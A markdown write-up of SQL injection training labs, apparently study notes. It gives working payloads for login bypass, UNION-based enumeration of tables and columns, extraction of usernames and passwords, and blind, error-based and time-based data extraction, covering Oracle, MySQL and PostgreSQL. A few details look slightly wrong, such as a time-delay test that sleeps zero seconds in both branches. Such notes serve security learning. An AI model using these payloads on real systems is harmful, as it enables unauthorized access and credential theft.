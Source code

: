 # SQL Injection Guide

## Introduction
SQL Injection (SQLi) is a web security vulnerability that allows attackers to interfere with database queries made by an application. This can allow attackers to:
- View data they normally couldn't access
- Modify or delete data in the database
- In some cases, compromise the underlying server or backend infrastructure
- Execute denial of service attacks

## Lab Exercises

### Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

**Exploitation:**
- Modify the category parameter: `'+OR+1=1--`
- This transforms the query to: 
```sql
SELECT * FROM products WHERE category='' OR 1=1--' AND released=1
```
- The `--` comments out the rest of the query, and `OR 1=1` ensures all products are returned

### Lab 2: SQL injection vulnerability allowing login bypass
**Exploitation:**
```sql
SELECT firstname FROM users where username='administrator'--' and password='administrator'--'
```
- The `--` comments out the password check entirely

### Lab 3: SQL injection attack, querying the database type and version on Oracle
**Exploitation:**
```sql
' UNION SELECT 'abc','def' FROM dual--
' UNION SELECT BANNER, NULL FROM v$version--
```
- Oracle requires selection FROM a table, even for literals (using `dual`)

### Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft
**Exploitation:**
```sql
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#
```
- First check column count with `ORDER BY 1`
- Use binary search approach to find the exact number of columns
- Replace NULL values with variable names like `@@version`

### Lab 5: SQL injection attack, listing the database contents on non-Oracle databases
**Exploitation:**
```sql
'+UNION+SELECT+'abc','def'--
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users'--
```
- Access schema information from `information_schema.tables` and `information_schema.columns`

### Lab 6: SQL injection attack, listing the database contents on Oracle
**Exploitation:**
```sql
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_RGVKUG'--
'+UNION+SELECT+USERNAME_ALTYZU,PASSWORD_LNYTLU+FROM+USERS_RGVKUG--
```
- Oracle uses `all_tables` and `all_tab_columns` instead of `information_schema`

### Lab 7: SQL injection UNION attack, determining the number of columns returned by the query
**Exploitation:**
```sql
'+UNION+SELECT+NULL--
'+UNION+SELECT+NULL,NULL--
'+ORDER+BY+3--
'+UNION+SELECT+NULL,NULL,NULL--
```
- Use `ORDER BY n` to determine column count
- Then verify with `UNION SELECT NULL` statements

### Lab 8: SQL injection UNION attack, finding a column containing text
**Exploitation:**
```sql
'+UNION+SELECT+NULL,NULL,NULL--
'+UNION+SELECT+'abcdef',NULL,NULL--
```
- Replace NULL with text string to find which column accepts text data

### Lab 9: SQL injection UNION attack, retrieving data from other tables
**Exploitation:**
```sql
'+UNION+SELECT+'abc','def'--
'+UNION+SELECT+username,+password+FROM+users--
```
- First identify table structure, then extract credentials

### Lab 10: SQL injection UNION attack, retrieving multiple values in a single column
**Exploitation:**
```sql
'+UNION+SELECT+NULL,'abc'--
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
- Use string concatenation to combine multiple columns into one

### Lab 11: Blind SQL injection with conditional responses
**Process:**
1. Verify vulnerability: `TrackingId=M0omrXqu566xdYiZ' AND 1=1--` (returns "welcome back")
2. Check table existence: `TrackingId=M0omrXqu566xdYiZ' AND (SELECT 'a' FROM users LIMIT 1)='a'--`
3. Check user existence: `TrackingId=M0omrXqu566xdYiZ' AND (SELECT 'a' FROM users WHERE username='administrator')='a'--`
4. Find password length: `TrackingId=M0omrXqu566xdYiZ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'--`
5. Extract password characters: `TrackingId=M0omrXqu566xdYiZ' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a'--`

### Lab 12: Blind SQL injection with conditional errors
**Process:**
1. Confirm SQL syntax error: `TrackingId=xyz'` (produces error), `TrackingId=xyz''` (no error)
2. Test table existence: `TrackingId=xyz' || (SELECT '' FROM users WHERE ROWNUM=1) || '`
3. Use CASE statements with division by zero to trigger errors:
   ```sql
   TrackingId=xyz' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)|| '
   ```
4. Determine password length and extract characters through Burp Intruder

### Lab 13: Visible error-based SQL injection
**Exploitation:**
```sql
TrackingId=xyz' AND CAST((SELECT username FROM users LIMIT 1) AS int)--
TrackingId=' AND CAST((SELECT password FROM users LIMIT 1) AS int)--
```
- Forces type conversion errors that leak data in error messages

### Lab 14: Blind SQL injection with time delays
**Exploitation:**
```sql
TrackingId=x' || pg_sleep(10)--
```
- Uses database-specific time delay functions for detection

### Lab 15: Blind SQL injection with time delays and information retrieval
**Process:**
1. Test vulnerability: `TrackingId=x' %3BSELECT CASE WHEN (1=1) THEN pg_sleep(0) ELSE pg_sleep(0) END--`
2. Check user existence: `TrackingId=x' %3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(0) ELSE pg_sleep(0) END FROM users--`
3. Determine password length and extract characters through time-based tests

### Lab 16: Blind SQL injection with out-of-band interaction
*No specific solution provided in notes*

### Lab 17: Blind SQL injection with out-of-band data exfiltration
*No specific solution provided in notes*

### Lab 18: SQL injection with filter bypass via XML encoding
*No specific solution provided in notes*

## Key Techniques
- UNION attacks for data retrieval
- Conditional responses for blind SQL injection
- Error-based extraction of data
- Time-based extraction techniques
- String concatenation for combining values
- Comments to remove unwanted query parts (`--`, `#`)
- Database-specific functions and schema inspection

## Database-Specific Notes
- Oracle: requires `FROM dual`, uses `all_tables` and `all_tab_columns`
- MySQL: uses `#` for comments, `@@version` variable
- PostgreSQL: uses `pg_sleep()` for time delays